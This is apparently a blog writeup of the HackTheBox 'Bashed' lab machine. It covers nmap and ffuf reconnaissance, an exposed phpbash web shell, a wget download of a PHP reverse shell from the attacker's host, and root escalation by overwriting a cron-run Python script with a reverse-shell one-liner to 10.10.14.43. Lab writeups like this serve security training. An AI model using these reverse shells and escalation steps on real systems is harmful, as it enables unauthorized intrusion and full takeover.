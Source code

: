 ```yaml
---
title: "Bashed - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - Bashed
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - easy
  - linux
toc: true
hide_title: true
excerpt: ""
---
```


## Bashed
![](https://kar0nx.github.io/assets/images/writeup/box-bashed.webp)

## Reconnaissance

IP: 10.10.10.68
### NMAP

```
nmap -T4 -A -p- 10.10.10.68
```

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-18 11:53 EST
Nmap scan report for 10.10.10.68
Host is up (0.031s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=2/18%OT=80%CT=1%CU=30377%PV=Y%DS=2%DC=T%G=Y%TM=67B4
OS:BB2A%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10E%TI=Z%CI=I%II=I%TS=8)
OS:SEQ(SP=107%GCD=1%ISR=10E%TI=Z%CI=I%II=I%TS=8)OPS(O1=M53CST11NW7%O2=M53CS
OS:T11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11NW7%O6=M53CST11)WIN(W1=
OS:7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(R=Y%DF=Y%T=40%W=7210%O=
OS:M53CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)
OS:T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S
OS:+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=N)U1(
OS:R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=
OS:N%T=40%CD=S)

Network Distance: 2 hops

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   30.93 ms 10.10.14.1
2   31.03 ms 10.10.10.68

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.59 seconds

```

Nmap scan shows only port  80 http - Apache httpd 2.4.18 is open.

## Website
### Site
![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250218175813.png)

Let's search for directory

```
ffuf -u http://10.10.10.68/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt   
```

/dev is interesting. and allows dirwalks:

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250218180131.png)

## Gaining Access

Clicking on phpbash.php gives shell

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250218180342.png)

we can take first flag

### Shell upgrade
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

Create rev-shell, set python server and download on site in /uploads folder
of course set nc and we have shell

```
/var/www/html/uploads# wget http://10.10.14.43/a.php
```
### Spawning TTY shell
https://github.com/ahmetgurel/Pentest-Hints/blob/master/Spawning%20a%20TTY%20Shell.md

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

## Privilege Escalation

```
sudo -l
```

we cant switch user normal but we can run command as scriptmanager
![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250218183142.png)


```
sudo -u scriptmanager /bin/bash
```

check for scriptmanager folders:

```
ls -la
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250218183424.png)

we can see 2 files here

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250219121148.png)

it looks like test.txt is result from test.py, root have access to it and runs script every few minutes, we can try to overwrite this python code with python reverse shell.
# Privilege Escalation

https://www.revshells.com/

```
echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.43\",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);" > test.py
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250219132850.png)

We have root shell 
### Spawning TTY shell

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

Now we can navigate to /root and grab our last flag.